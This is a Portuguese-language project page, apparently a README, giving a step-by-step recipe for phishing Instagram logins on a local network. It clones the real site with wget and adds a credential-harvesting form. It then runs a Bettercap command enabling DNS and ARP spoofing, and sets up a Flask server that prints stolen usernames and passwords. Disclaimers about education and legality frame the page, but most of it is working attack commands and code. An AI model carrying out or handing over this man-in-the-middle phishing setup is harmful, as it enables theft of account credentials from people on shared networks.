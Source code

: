 <header>
<h1>Como Criar uma Página Falsa Usando DNS Spoofing e ARP Spoofing</h1>
</header>

<section>
<h2>Descrição</h2>
<p>Este projeto é uma demonstração de como ataques como DNS Spoofing e ARP Spoofing podem ser utilizados para redirecionar o tráfego da vítima para uma página falsa que você controla. Lembre-se, essas técnicas devem ser usadas apenas para fins educativos e em ambientes controlados. Qualquer uso mal-intencionado é ilegal e antiético.</p>
</section>

<section>
<h2>Objetivo</h2>
<p>O objetivo deste projeto é mostrar como um atacante pode redirecionar tráfego de uma rede local para uma página falsa, a qual coleta dados de login sensíveis (por exemplo, credenciais de um site como o Instagram).</p>
</section>

<section>
<h2>Como Funciona</h2>
<h3>DNS Spoofing (Falsificação de DNS)</h3>
<p>O atacante intercepta as consultas DNS e engana a vítima, direcionando o tráfego de um site legítimo (como "instagram.com") para seu próprio servidor.</p>

<h3>ARP Spoofing (Falsificação de ARP)</h3>
<p>Esse ataque manipula a tabela ARP, fazendo com que os pacotes da vítima sejam enviados para o computador do atacante.</p>

<h3>Página Falsa (Phishing)</h3>
<p>O atacante cria uma página que se parece com o site original (por exemplo, o Instagram), mas com a funcionalidade de coletar dados inseridos pela vítima, como nome de usuário e senha.</p>
</section>

<section>
<h2>Como Criar a Página Falsa</h2>

<h3>Passo 1: Baixar o código do site original</h3>
<p>Você pode usar ferramentas como <code>wget</code> ou <code>curl</code> para baixar o código HTML do site original. Isso permite que você tenha uma cópia do site em seu computador.</p>
<pre><code>wget -r -np -k http://instagram.com</code></pre>

<h3>Passo 2: Modificar o código para coletar dados</h3>
<p>Depois de ter o código do site, altere-o para incluir um formulário falso de login. Esse formulário irá coletar as credenciais inseridas pela vítima.</p>
<pre><code>
<form action="http://seu-servidor.com/pegar-dados" method="post">
<input type="text" name="username" placeholder="Usuário">
<input type="password" name="password" placeholder="Senha">
<input type="submit" value="Entrar">
</form>
</code></pre>

<h3>Passo 3: Servir a página falsa localmente</h3>
<p>Você pode usar Python para criar um servidor local e servir a página falsa. Para isso, basta rodar o seguinte comando:</p>
<pre><code>python3 -m http.server 8080</code></pre>

<h3>Passo 4: Configurar o ataque de DNS e ARP Spoofing</h3>
<p>Agora que você tem a página falsa e o servidor local configurados, é necessário redirecionar o tráfego para o seu computador. Isso pode ser feito usando ferramentas como o Bettercap.</p>
<pre><code>
sudo bettercap -iface wlan0 -eval "set dns.spoof.domains instagram.com.br; set dns.spoof.address 192.168.10.103; dns.spoof on; arp.spoof on"
</code></pre>
<p>Este comando faz com que o tráfego destinado ao "instagram.com.br" seja redirecionado para o seu servidor local (no caso, 192.168.10.103).</p>

<h3>Passo 5: Coletar os dados</h3>
<p>Quando a vítima acessar a página falsa e preencher o formulário de login, os dados serão enviados para o servidor especificado no atributo action do formulário.</p>
<p>Se você estiver usando Flask, você pode configurar um servidor para coletar esses dados:</p>
<pre><code>
from flask import Flask, request

app = Flask(__name__)

@app.route('/pegar-dados', methods=['POST'])
def pegar_dados():
    usuario = request.form['username']
    senha = request.form['password']
    print(f"Usuário: {usuario} | Senha: {senha}")
    return "Dados coletados!"

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
</code></pre>
</section>

<section>
<h2>Resumo do Processo</h2>
<ol>
<li>A vítima tenta acessar "instagram.com".</li>
<li>O tráfego é redirecionado para o seu servidor local devido ao ataque de DNS Spoofing.</li>
<li>O servidor local serve a página falsa.</li>
<li>A vítima insere as credenciais de login na página falsa.</li>
<li>Os dados coletados são enviados para o seu servidor, permitindo que você capture as informações.</li>
</ol>
</section>

<section>
<h2>Aviso Legal</h2>
<p>Este tipo de atividade é ilegal e antiética. O uso dessas técnicas deve ser restrito a ambientes controlados e com a permissão explícita dos envolvidos, como em laboratórios de segurança e para fins educativos. Realizar ataques como este em redes ou sistemas sem autorização pode resultar em sérias consequências legais.</p>
</section>
